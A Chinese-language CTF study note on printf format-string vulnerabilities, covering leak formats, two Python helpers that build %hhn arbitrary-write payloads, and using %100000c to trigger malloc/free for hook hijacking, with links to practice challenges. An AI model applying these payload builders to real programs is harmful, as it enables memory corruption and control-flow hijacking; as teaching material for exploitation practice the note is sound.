 
# libc函数漏洞

# printf

著名的**格式化字符串漏洞**就不说啦~ `printf`家族的函数都存在这个漏洞

> printf,  fprintf,  dprintf,  sprintf,  snprintf, vprintf, vfprintf, vdprintf, vsprintf, vsnprintf 

## 常用格式

| 格式符 | 用途                           | 备注                                                         |
| ------ | ------------------------------ | ------------------------------------------------------------ |
| `%p`   | 以指针格式输出栈中变量的地址   | `$`用于指定位置参数，e.g.`%13$p`                             |
| `%s`   | 输出栈中指针指向的字符串       | 若指针不合法则输出`(nil)`                                    |
| `%a`   | 以double格式输出栈中变量       | 常见于`printf_chk`泄漏`libc`，详见[#1](#泄漏内存)            |
| `%c`   | 以char格式输出栈中变量         | 打印过多字符将调用`malloc`，详见[#2](#触发malloc/free)       |
| `%n`   | 将已输出的字符数保存到栈中指针 | 若指针不合法则报错<br />`%n`-4字节; `%hn`-2字节; `%hhn`-1字节 |

## 泄漏内存

`%p`用于泄漏内存就不多说了

用`%a`的时候要注意一下输出格式的问题，比如有如下输出：

```c
0x0.07fcf47895ap-1022
```

由于是小数的形式打印的，变量末尾的0会被自动省略掉，需要手动还原一下：

```c
0x07fcf4789500
```



## 任意写

### case1: buf足够大

如果buf足够大，可以考虑同时使用多个格式符，一次完成变量的修改。

下面是keer师傅的`%hhn`大法可以快速完成任意写，payload长度至少为`128`

```python
def fmt(data,addr,off):
    arg0=(data)&0xff
    arg1=(data&0xff00)>>8
    arg2=(data&0xff0000)>>16
    arg3=(data&0xff000000)>>24
    arg4=(data&0xff00000000)>>32
    arg5=(data&0xff0000000000)>>40
    print arg0,arg1,arg2,arg3
    # arg6=(data&0xf f000000000000)>>48
    # arg7=(data&0xf f00000000000000)>>56
    pay1='%'+str(arg0)+'c%'+str(off+10)+'$hhn'
    pay2='%'+str( (arg1-arg0+0x100)%0x100)+'c%'+str(off+11)+'$hhn'
    pay3='%'+str( (arg2-arg1+0x100)%0x100)+'c%'+str(off+12)+'$hhn'
    pay4='%'+str( (arg3-arg2+0x100)%0x100)+'c%'+str(off+13)+'$hhn'
    pay5='%'+str( (arg4-arg3+0x100)%0x100)+'c%'+str(off+14)+'$hhn'
    pay6='%'+str( (arg5-arg4+0x100)%0x100)+'c%'+str(off+15)+'$hhn'
    payload = pay1+pay2+pay3+pay4+pay5+pay6 # +'%100000c'
    payload = payload.ljust(8*10,'A')
    payload+= p64(addr)
    payload+= p64(addr+1)
    payload+= p64(addr+2)
    payload+= p64(addr+3)
    payload+= p64(addr+4)
    payload+= p64(addr+5)
    return payload
```

`%hhn`一次写1个字节，相当于是`byte/char`型，最大范围是`0xff`，所以`(arg1-arg0+0x100)%0x100`这样的溢出写法，可以在不排序的情况下准确覆盖变量。

由于每次只改1字节，使用`%hhn`快速完成任意写，不足之处就是payload太长。

### case2: buf不够大

如果buf长度不够，可以考虑重复利用`printf`，多次攻击完成变量的修改。

下面是藕自己写的模板，payload长度最少是`32`字节：

```python
def alter_byte(addr,data):
    if data==0:
        payload = "%10$hhn"
    else:
        payload = "%%%dc%%10$hhn"%(data)
    payload = payload.ljust(24,'T')
    payload += p64(addr)
    sl(payload)
    return rc()

def alter_dw(addr,data):
    alter_byte(addr,data&0xff)
    alter_byte(addr+1,(data>>8)&0xff)
    alter_byte(addr+2,(data>>16)&0xff)
    alter_byte(addr+3,(data>>24)&0xff)

def alter_qw(addr,data):
    alter_dw(addr,data)
    alter_dw(addr+4,data>>32)

```

>其中10是offset，用的时候改一下

## 触发malloc/free

`%100000c`表示在输出字符时向左侧填充空格，最终输出长度为`100000`的字符串。当字符串长度过大的时候，`printf`内部将调用`malloc`申请空间作为缓冲器，输出结束后会`free`掉这片空间。

利用方式：

* 篡改`malloc_hook`/`free_hook`，使用`%100000c`触发`malloc`/`free`，劫持程序控制流
* 和堆相关利用结合，利用`printf`隐试调用`malloc`

> 此外，从原理上看`%100000s`,`%10000d`等类似格式也可达到同样效果。

## 练习题

* [0CTF-EasiestPrintf](https://poning.me/2017/03/23/EasiestPrintf/)

* [ACTF-fmt64](http://taqini.space/2020/02/13/ACTF2020-writeup/#fmt64)

* [eonew-easy_printf](http://pwn.eonew.cn/) (根据Ex师傅平台的要求就不公开wp了) 
* [ACTF-chk_rop](https://github.com/TaQini/ctf/tree/master/ACTF2020/pwn/unsolved/chk_rop) (printf_chk)

> 更新日期：2020年 04月 01日 星期三 23:05:56  CST

# scanf



# abs


